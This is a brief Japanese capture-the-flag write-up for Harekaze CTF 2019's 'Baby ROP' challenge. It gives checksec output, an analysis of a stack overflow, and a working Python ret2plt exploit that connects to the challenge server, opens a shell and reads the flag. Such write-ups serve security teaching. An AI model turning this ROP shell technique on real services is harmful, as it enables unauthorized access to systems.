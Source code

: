 # [pwn 100pts] Baby ROP - Harekaze CTF 2019
64ビットで基本無効です。
```
$ checksec -f babyrop
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   70 Symbols     No	0		2	babyrop
```

IDAで解析すると、スタックオーバーフローがあることが分かります。
また、やさしいことにsystem関数のpltと"/bin/sh"という文字列がバイナリ中に存在するので、簡単にret2pltでシェルが呼べます。

```python
from ptrlib import *

#sock = Process("./babyrop")
sock = Socket("problem.harekaze.com", 20001)

plt_system = 0x400490
rop_pop_rdi = 0x00400683
addr_binsh = 0x601048

payload = b'A' * 0x18
payload += p64(rop_pop_rdi)
payload += p64(addr_binsh)
payload += p64(plt_system)
payload += p64(0xffffffffffffffff)
sock.sendline(payload)

sock.interactive()
```

libc-2.27とかだとなぜか`system("/bin/sh")`が失敗するのですが、問題文にUbuntu 16と書いてあったので安心です。
```
$ python solve.py 
[+] Socket: Successfully connected to problem.harekaze.com:20001
[ptrlib]$ cat /home/babyrop/flag
What's your name? HarekazeCTF{r3turn_0r13nt3d_pr0gr4mm1ng_i5_3ss3nt141_70_pwn}
[ptrlib]$
```

# 感想
初心者向けですね。
